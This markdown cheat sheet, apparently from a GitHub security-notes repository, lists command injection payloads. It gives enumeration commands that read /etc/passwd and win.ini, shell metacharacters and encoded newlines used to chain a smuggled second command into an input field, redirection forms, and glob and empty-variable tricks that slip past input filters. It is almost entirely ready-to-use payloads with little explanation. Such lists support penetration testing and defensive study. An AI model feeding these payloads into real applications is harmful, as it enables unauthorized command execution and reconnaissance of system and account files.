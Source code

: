 # Command Injection List

## Enumeration Command Injection

### General

```
whoami
pwd
```

### Linux

- Enumerate user privileges

```
id
```

- Enumerate users

```
cat /etc/passwd
strings /etc/passwd
while read line; do echo $line; done < /etc/passwd
while IFS= read -r line;do echo "$line"; done < /etc/passwd
while IFS=: read -r username password userid groupid comment homedir cmdshell;do echo "$username, $userid, $comment $homedir"; done < /etc/passwd
```

### Windows

```
type C:\windows\win.ini
```

## Chaining Commands

```
;
$;
a;
a);
&&
&
||
|
a|
a)|
#
'
"
!
`<command>`
$(<command>)
$(`<command>`)
${<command>}
\n
0x0A
0x0a
%0A
%0a
\r
\r\n
```

## I/O Redirection

### Input

#### Linux

```
cat < /path/to/file.txt
strings < /path/to/file.txt
```

### Output

#### Linux

```
ls > /path/to/file.txt
ls >> /path/to/file.txt
$(ls) > /path/to/file.txt
$(ls) >> /path/to/file.txt
```

## Filter Evasion

### Linux

```
/bin/cat /e??/p??s??
/bin/cat /e*/pa*wd
/bin/cat /et*/pa*wd
/bin/cat /et*/pa**wd
cat$u /etc$u/passwd
```
## References

- [PayloadsAllTheThings: Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

- [OS Command Injection tutorial – Part #1 (Basics and Filter Evasion)](https://0x80dotblog.wordpress.com/2021/07/28/os-command-injection-tutorial-part-1-basics-and-filter-evasion/)

- [SecJuice: Bypass Strict Input Validation With Remove Prefix and Suffix Patterns](https://www.secjuice.com/bypass-strict-input-validation-with-remove-suffix-and-prefix-pattern/)